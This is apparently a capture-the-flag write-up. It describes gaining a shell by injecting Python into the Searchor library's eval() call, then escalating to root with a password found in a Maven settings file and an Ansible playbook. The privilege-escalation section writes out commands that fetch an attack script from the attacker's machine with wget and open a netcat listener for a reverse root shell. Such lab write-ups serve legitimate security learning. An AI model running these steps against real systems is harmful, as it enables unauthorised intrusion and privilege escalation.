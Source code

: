## Intial Foothold
**Abuse Searchor to execute commands**


### Resources
- [Searchor Repo](https://github.com/ArjunSharda/Searchor)
- [Python Eval Function](https://realpython.com/python-eval-function/#understanding-pythons-eval)
- [Bypass python sandbox](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)

### Exploit

```
python3 exploit.py
```
**Steps**
- When I went to website I found that it using Searchor.
- I downloaded Searchor on my local machine and play with it to find a way to execute commands.
- I assumed web application pass the query and engine parameters in POST request to Searchor directly.

  ``Engine.<engine>.search('<query>')``
- I tried to abuse engine parameter and there was no way to abuse it.
- Then I focused on query parameter and sent ' in it and it break the application so I was in the correct way.


  Normal Request:                                                                                         
  ![image](https://user-images.githubusercontent.com/59315492/230909846-0853fa7b-4b09-484c-9c39-0ba820f0883b.png)
  
  
  Response:                                                                                            
  ![image](https://user-images.githubusercontent.com/59315492/230909887-618f1b70-34c0-4b5f-a2b5-e7d6429a5f1b.png)
  
  
  Abused Request with ' :                                                                                     
  ![image](https://user-images.githubusercontent.com/59315492/230910048-4acc9c72-8621-4f3b-9092-895cc6dd7250.png)
  
  
  Response:                                                                                 
  ![image](https://user-images.githubusercontent.com/59315492/230910150-0326e94e-fe54-498a-9f9b-9319b44e5bd2.png)

- I tried to bypass Searchor on my local machine and I found a way to bypass it.
  
  ![image](https://user-images.githubusercontent.com/59315492/230912748-0bacadcb-d71a-4c10-a5ed-486798bccc35.png)

  ![image](https://user-images.githubusercontent.com/59315492/230912809-fa50c90a-bae6-4748-81ea-fd311472cfdf.png)
 - I found that eval function take string and run it as python code I tried it and it worked. 
  ![image](https://user-images.githubusercontent.com/59315492/230914598-544158e0-615f-4717-a17e-c004e5acd936.png)
  ![image](https://user-images.githubusercontent.com/59315492/230914677-8a5643a9-ba84-44ed-94df-bc6828463364.png)
 - I found way to get RCE using eval in [Bypass python sandbox](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)
  ![image](https://user-images.githubusercontent.com/59315492/230915451-e15ea78f-60fc-4d4d-903c-4f03ba152e02.png)
  ![image](https://user-images.githubusercontent.com/59315492/230915542-36152379-2e8e-4a13-b92a-602d13a1c5cf.png)
 
 - Finally I wrote python code to exploit it and get shell. 

---
## Privilege Escalation:
**SU to phil user using his password located in /home/frank/.m2/settings.xml and use Ansible playbook to ecalate to root**

[Ansible Playbook Exploit](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/)

### Exploit

- Upload PrivEsc.py to target using wget and python Simple HTTP Server.
  - Run Simple HTTP Server on Attacker Machine.
    
    ```
    python3 http.server 8000
    ```
  - Download PriEsc.py on Target Machine.
    
    ```
    wget http://<Local_IP>:8000/PrivEsc.py
    ```
- Run netcat listener on Attacker Machine

    ```
    nc -nlvp 4444
    ```
- Run PrivEsc.py and wait for Root shell connection it may take a while.

    ```
    python3 PrivEsc.py
    ```
